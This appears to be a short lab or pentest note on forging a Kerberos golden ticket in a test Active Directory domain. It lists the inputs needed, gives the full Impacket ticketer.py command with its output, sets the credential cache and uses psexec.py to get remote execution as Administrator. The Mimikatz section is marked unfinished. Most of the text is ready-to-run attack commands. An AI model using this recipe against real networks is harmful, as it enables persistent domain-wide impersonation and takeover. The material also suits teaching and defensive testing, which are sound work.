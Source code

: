 # Create and Use a Golden Ticket

You will need:

* The FQDN of the domain: `fra.evilcorp.lab2`
* The SID of the domain: `S-1-5-21-2894840767-735700-3593130334`
* The NTLM hash of the `krbtgt` account: `25619bab39a137291b536a7bf42c6780`
* The `samAccountName` of the user to impersonate (preferably a domain admin): `Administrator`

## With Impacket from Linux

Create the ticket.
`ticketer.py -nthash 25619bab39a137291b536a7bf42c6780 -domain-sid S-1-5-21-2894840767-735700-3593130334 -domain fra.evilcorp.lab2 Administrator`

``` text
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for fra.evilcorp.lab2/Administrator
[*]   PAC_LOGON_INFO
[*]   PAC_CLIENT_INFO_TYPE
[*]   EncTicketPart
[*]   EncAsRepPart
[*] Signing/Encrypting final ticket
[*]   PAC_SERVER_CHECKSUM
[*]   PAC_PRIVSVR_CHECKSUM
[*]   EncTicketPart
[*]   EncASRepPart
[*] Saving ticket in Administrator.ccache
```

That will create a file `Administrator.ccache` in the current directory.

Export a variable of the file:
`export KRB5CCNAME=/home/user/Administrator.ccache`

Use it:
`psexec.py -dc-ip 192.168.58.11 -target-ip 192.168.58.11 -no-pass -k fra.evilcorp.lab2/Administrator@192.168.58.11`

## With Mimikatz from Windows

Open Mimikatz and fire the commands:

Create a golden ticket and save it to a file in current directory:

**To be completed.**
